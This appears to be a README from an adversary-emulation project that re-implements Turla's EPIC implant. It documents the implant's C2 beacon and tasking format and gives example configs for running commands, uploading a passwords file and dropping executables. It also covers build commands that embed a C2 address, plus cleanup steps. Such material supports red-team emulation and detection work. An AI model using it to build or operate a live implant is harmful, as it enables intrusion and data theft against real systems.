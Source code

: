 # EPIC Payload

## C2 Communications
The EPIC payload communicates with a hardcoded C2 server and port value via HTTP POST requests.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>

### C2 Registration
The module will automatically perform initial discovery commands and output the results to a tmp
file in %TEMP% with a random string in its filename: `%TEMP%\~D<random>.tmp`.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>
For scenario purposes, this file name has been hardcoded to `%TEMP%\~D723574.tmp`. The discovery
output is returned in the POST request body.

The POST request body is bzip2 compressed and then formatted in a Base64 encoded JSON string with
fields `UUID`, `type`, and `data` and are not made to any particular subfolder and are sent to the
URL path `/` of the C2 server site. The initial heartbeat is structured as follows:
```
{"UUID":"", "type":"command", "data":"<system discovery information>"}
```

EPIC will use the `type` field to indicate to the C2 server what type of data to receive based on
the task.

| Type       | Description |
| ---------- | ------------
| `command`  | Associated with the `exe` key - indicates the returned data contains command output |
| `upload`   | Associated with the `result` key - indicates the returned data contains a file      |
| `download` | Associated with payloads and the `name` key - indicates download was successful     |
| `delete`   | Associated with the `name` and `del_task` keys - indicates delete was successful    |

Upon registration with the C2 server, the module will receive a UUID to use in future
communications. The module will then continue to perform POST requests to the domain name of the
C2 server site to receive instructions and return result output.

### Execute Commands
Upon receiving instructions to execute commands, the module will execute the command, append
command output to `%TEMP%\~D723574.tmp` , and return the command output in the next C2 communication
cycle.<sup>[1](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf)</sup>

## Execution
The Payload is intended to execute in the scenario as an embedded resource inside of EPIC's Reflective Guard, which is subsequently embedded in the Reflective Injector. Executing either the Guard DLL or Injector executable will result in the execution of the Payload DLL. To execute *just* the Payload, you can run it via `rundll32.exe` with the exported function `PayLoop`. See [here](#troubleshooting.) if you encounter any issues.

### Tasks
The EPIC payload receives tasking from the C2 server as part of a successful beacon response.

To retrieve an instruction, the response should be base64 decoded and then bzip2 decompressed.

EPIC instructions are structured as followed:

| Instruction Section      | Byte Offset |
| ------------------------ | ----------- |
| Command ID               | 0           |
| Payload size (`p`)       | 4           |
| Payload                  | 8           |
| Configuration size       | 8 + `p`     |
| Configuration            | 8 + `p` + 4 |

Instructions with no payloads (EXE binaries) to download to the module will have a `Payload size`
of 0.

Configurations are INI structured files which contain some of the following fields:

| Name      | Description |
| --------- | ----------- |
| exe       | Execute a command, redirect its output to the file %TEMP%\~D%random%.tmp. The file is then uploaded during the next C&C communication cycle. |
| del_task  | Delete a file. |
| result    | Set the filename that is supposed to contain the results of command execution. Effectively, any existing file may be marked for upload by this command. |
| name      | Set the filename to be deleted or created (depends on other parameters) |

Example execute command configuration:

```
exe = whoami
```

Example upload file configuration:
```
result = C:\users\bob\passwords.txt
```

Example download file configuration (instruction should have associating payload data):
```
name = C:\System32\malicious.exe
```

Example delete file configuration:
```
del_task = \nname = C:\Windows\System32\malicious.exe
```

### Encryption

#### RSA encryption:
 - sha1 hash function
 - OAEP padding
 - 2048 bit key

```
openssl genrsa -out private.pem 2048
openssl rsa -in private.pem -outform PEM -pubout -out public.pem

openssl rsa -pubin -in public.pem -RSAPublicKey_out -out public_pkcs1.key -outform der
openssl rsa -in private.pem -traditional -out private_pkcs1.key -outform der
```
 
#### AES encryption:
  - 256 bit key
  - CBC mode of operation

## Build Instructions

**Notes about Bzip2**
The EPIC payload used a modified version of BZip2 compiled as a static library. Modifications to BZip2 primarily consisted of stripping debug statements throughout the source files. The modifed BZip2 static library has been removed from this repository, however vcpkg will install an unmodified BZip2 library upon building the payload that will function as needed.

If you are interested in downloading and modifying BZip2, you can find it [here](https://gitlab.com/bzip2/bzip2). CMake build instructions can be found [here](https://gitlab.com/bzip2/bzip2/-/blob/master/COMPILING.md#basic-release-build). Once compiled, `bz2_static.lib` should be copied to `payload\libs\lib\bzlib.lib` and the `bzlib.h` should be copied to `payload\libs\include\bzlib.h`. Create the relevant directories if they do not already exist. Please also make the necessary adjustments to the `CMakeLists.txt` and `vcpkg.json` files. <sup>[1](vcpkg.json#L9) [2](CMakeLists.txt#L27) [3](CMakeLists.txt#L34) [4](CMakeLists.txt#L64) [5](CMakeLists.txt#L74)</sup>

**From Visual Studio Developer PowerShell:**

```
cd Resources\EPIC\payload
cmake -S . -B build -DUSE_HTTPS="<true/false>" -DC2_PORT="<port #>" -DC2_ADDRESS:STRING="<c2Address>" -DBINARY_NAME:STRING="<res/res2>"
cmake --build build --config Release --target ALL_BUILD -j 4 --
```

The compiled DLL and executable will be located in: `EPIC\payload\bin`

When built with the [build script](#build-instructions.), EPIC will use a default C2 server (address and port) and HTTP for communications. To compile with a different C2 server address and port or to use HTTPS communications, change the corresponding values in the line from above (`cmake -S . -B build -DUSE_HTTPS="<true/false>"...`). For example, to build the payload with C2 server `example.com`, port `1234`, and `HTTPS` selected, run:

```
cmake -S . -B build -DUSE_HTTPS="true" -DC2_PORT="1234" -DC2_ADDRESS:STRING="example.com" -DBINARY_NAME:STRING="res2"
```

Run the remaining command as written above. To note: the payload binary name `res` corresponds to HTTP and `res2` to HTTPS.


To remove symbols, you can use the `strip` command:
```
strip -s bin\test_res.exe
```

To verify, you can run `strings` or `objdump --syms bin\test_res.exe` - you should see an empty symbols table.

To run unit tests:

```
ctest --test-dir bin
```

## Cleanup Instructions

Remove the log file:
```
Remove-Item -Path "%TEMP%\~D723574.tmp";
```

Kill all Edge browsers potentially containing payload injected into it:
```
Get-Process msedge -ErrorAction SilentlyContinue | Stop-Process -Force;
```

## CTI References
1. https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf
2. https://securelist.com/the-epic-turla-operation/65545/

